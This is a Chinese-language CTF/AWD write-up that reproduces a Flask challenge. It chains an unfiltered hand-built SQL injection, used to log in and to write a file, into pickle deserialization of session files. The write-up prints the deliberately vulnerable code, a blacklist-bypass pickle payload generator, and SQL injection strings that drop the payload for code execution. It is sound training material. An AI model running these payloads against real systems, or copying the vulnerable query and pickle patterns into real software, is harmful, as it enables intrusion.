










## 前言

学校AWD平台有这道题,所以就拿来复现一下.

参考一叶飘零WP : https://skysec.top/2018/04/01/

题目环境可以在GitHub找到: https://github.com/0xs1riu5/Writeup/tree/master/0x05Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/docker/web4

主要代码:



## SQL 注入

做这道题目的时候完全没有关注这方面,一直在找下一步的pickle反序列化的点.

>  一般flask都会用一些扩展来操作数据库,这题没仔细看( , 看wp才发现数据库操作是自己写的....

在others.py

```python
class Mysql_Operate():
    def __init__(self, Base, engine, tmp):
        self.tmp=tmp
        self.Base = Base
        self.engine = engine

    def Add(self, tablename, values):
        db_session=self.tmp()
        sql = "insert into " + tablename + " "
        sql += "values ("
        sql += "".join(i + "," for i in values)[:-1]
        sql += ")"
        try:
            db_session.execute(sql)
            db_session.commit()
            return 1
        except:
            return 0

    def Del(self, tablename, where):
        db_session=self.tmp()
        sql = "delete from " + tablename + " "
        sql += "where " + \
            "".join(i + "=" + str(where[i]) + " and " for i in where)[:-4]
        try:
            db_session.execute(sql)
            db_session.commit()
            return 1
        except:
            return 0

    def Mod(self, tablemame, where, values):
        db_session=self.tmp()
        sql = "update " + tablemame + " "
        sql += "set " + \
            "".join(i + "=" + str(values[i]) + "," for i in values)[:-1] + " "
        sql += "where " + \
            "".join(i + "=" + str(where[i]) + " and " for i in where)[:-4]
        try:
            db_session.execute(sql)
            db_session.commit()
            return 1
        except:
            return 0

    def Sel(self, tablename, where={}, feildname=["*"], order="", where_symbols="=", l="and"):
        sql = "select "
        sql += "".join(i + "," for i in feildname)[:-1] + " "
        sql += "from " + tablename + " "
        if where != {}:
            sql += "where " + "".join(i + " " + where_symbols + " " +
                                      str(where[i]) + " " + l + " " for i in where)[:-4]
        if order != "":
            sql += "order by " + "".join(i + "," for i in order)[:-1]
        return sql

    def All(self, tablename, where={}, feildname=["*"], order="", where_symbols="=", l="and"):
        db_session=self.tmp()
        sql = self.Sel(tablename, where, feildname, order, where_symbols, l)
        try:
            res = db_session.execute(sql).fetchall()
            if res == None:
                return []
            return res
        except:
            return -1

    def One(self, tablename, where={}, feildname=["*"], order="", where_symbols="=", l="and"):
        db_session=self.tmp()
        sql = self.Sel(tablename, where, feildname, order, where_symbols, l)
        try:
            res = db_session.execute(sql).fetchone()
            if res == None:
                return 0
            return res
        except:
            return -1

    def Unionall(self, param):
        db_session=self.tmp()
        sql = "".join(i + " union " for i in param)[:-6]
        try:
            res = db_session.execute(sql).fetchall()
            if res == None:
                return []
            return res
        except:
            return -1

    def Unionone(self, param):
        db_session=self.tmp()
        sql = "".join(i + " union " for i in param)[:-6]
        try:
            res = db_session.execute(sql).fetchone()
            if res == None:
                return []
            return res
        except:
            return -1

    def Init_db(self):
        self.Base.metadata.create_all(self.engine)

    def Drop_db(self):
        self.Base.metadata.drop_all(self.engine)
```

可以发现题目自定义了很多数据库操作,而且无任何过滤(看一下forms.py也是没什么过滤的) . 那么就找一下在哪调用了这个类, 发现只实例化了一个对象mysql



接着找一下哪里导入了mysql这个实例



看了一下登陆页面,发现是可以构造注入的

```python
# forms.py
class LoginForm(FlaskForm):
    username = StringField('Username', validators=[DataRequired()])
    password = PasswordField('Password', validators=[DataRequired()])
    remember_me = BooleanField('Remember Me')
    submit = SubmitField('Sign In')
# routes.py
@app.route('/login', methods=['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))
    form = LoginForm()
    if form.validate_on_submit():
        user = load_user_by_username(form.username.data)
        ... 
# models.py
def load_user_by_username(username):
    msg = mysql.One("user", {"username": "'%s'" % username})
    if msg != 0 and msg != -1:
        user = User(id=msg[0], username=msg[1], email=msg[2],
                    password_hash=msg[3], note=msg[4], last_seen=msg[5])
        return user
    else:
        return msg
# others.py
def One(self, tablename, where={}, feildname=["*"], order="", where_symbols="=", l="and"):
    db_session=self.tmp()
    sql = self.Sel(tablename, where, feildname, order, where_symbols, l)
    try:
        res = db_session.execute(sql).fetchone()
        if res == None:
            return 0
        return res
    except:
        return -1
    # ... 
def Sel(self, tablename, where={}, feildname=["*"], order="", where_symbols="=", l="and"):
    sql = "select "
    sql += "".join(i + "," for i in feildname)[:-1] + " "
    sql += "from " + tablename + " "
    if where != {}:
        sql += "where " + "".join(i + " " + where_symbols + " " +
                                  str(where[i]) + " " + l + " " for i in where)[:-4]
        if order != "":
            sql += "order by " + "".join(i + "," for i in order)[:-1]
            return sql
```

`L0nm4r'or'1` 可以直接登陆, 由此可以构造bool盲注





不过目标是RCE,就不再继续注入了(

## pickle反序列化

### 分析

因为是当AWD题目做的,所以上来就先关注了一些可能存在RCE/文件读取的点.

python里面大多都是ssrf,ssti,pickle反序列化等.

在others.py:

```python
def load(file):
    reload(pickle)
    unpkler = pickle.Unpickler(file)
    return unpkler.load()
```

接着找调用这个函数的模块



发现主要是在Mycache.py FileSystemCache Class的方法里调用这个函数, 再接着跟踪调用的话是可以发现FileSystemCache主要是处理session相关的



仔细看下load函数调用:

```python
def get(self, key):
    filename = self._get_filename(key)
    try:
        with open(filename, 'rb') as f:
            pickle_time = load(f)
            if pickle_time == 0 or pickle_time >= time():
                a = load(f)
                return a
            else:
                os.remove(filename)
                return None
    except (IOError, OSError, PickleError):
        return None

    # ...

def has(self, key):
    filename = self._get_filename(key)
    try:
        with open(filename, 'rb') as f:
            pickle_time = load(f)
            if pickle_time == 0 or pickle_time >= time():
                return True
            else:
                os.remove(filename)
                return False
    except (IOError, OSError, PickleError):
        return False
```

加载session文件然后对文件内容进行反序列化,filename是key的md5值:

```python
def _get_filename(self, key):
    if isinstance(key, text_type):
        key = key.encode('utf-8')  # XXX unicode review
    hash = md5(key).hexdigest()
    return os.path.join(self._path, hash)
```

配合sql注入可以控制session文件内容,但是在这之前需要知道key是怎么生成的

查找has/get调用即可.



只有一处调用, `self.key_prefix`为固定值bdwsessions, sid可以在cookie找到:



### 利用

题目还存在一处hook对session内容进行过滤:

```python
black_type_list = [map, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen,platform.popen]


def _hook_call(func):
    def wrapper(*args, **kwargs):
        session['cnt'] += 1
        for i in args[0].stack:
            if i in black_type_list:
                raise FilterException(args[0].stack[-2])
            if session['cnt'] > 4:
                raise TimesException()
        return func(*args, **kwargs)
    return wrapper
```

这个过滤bypass参考一叶飘零师傅博客:

```
subprocess.Popen
subprocess.call
commands
commands.getoutput
```

还有一些绕过方法: https://github.com/0xs1riu5/Writeup/tree/master/0x05Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E

生成payload:

```python
#encoding=utf-8
import pickle
import commands
from hashlib import md5

class genpoc(object):
    def __reduce__(self):
        cmd = 'touch /tmp/I_Got_the_flag'
        s = "__import__('os').popen('{}').read()".format(cmd)
        return (commands.getoutput, (s,))

poc = pickle.dumps(genpoc())
pochex=''
for i in range(len(poc)):
    pochex=pochex+hex(ord(poc[i]))[2:]
print('select/**/0x' + pochex.upper() + "/**/into/**/dumpfile/**/'/tmp/" + md5('bdwsessions4cc4e630-1e34-446a-9f59-c1c2b7776a89').hexdigest() + "'")
```

```sql
select/**/0x63636F6D6D616E6473A6765746F7574707574A7030A2853225F5F696D706F72745F5F28276F7327292E706F70656E2827746F756368202F746D702F495F476F745F7468655F666C616727292E72656164282922A7031A747032A527033A2E/**/into/**/dumpfile/**/'/tmp/7a329ef9afb6bc7f1ff2a089c1732f3f'
```

后来发现上面找的注入点不能写文件,(没找到具体原因

在register处同样存在注入点:

下面的语句可以绕过Email()检测

```sql
a'/**/union/**/select/**/0x63636f6d6d616e6473a6765746f7574707574a7030a2853225f5f696d706f72745f5f28276f7327292e706f70656e2827746f756368202f746d702f495f476f745f7468655f666c616727292e72656164282922a7031a747032a527033a2e/**/into/**/dumpfile/**/'/tmp/0482f888c17a0d3ef4e14b28a38b9eaf'#@test.com
```

然后带着session访问index即可

> 写文件有点奇怪,同一个payload有时候能成功有时候不成功

## 后记

好题.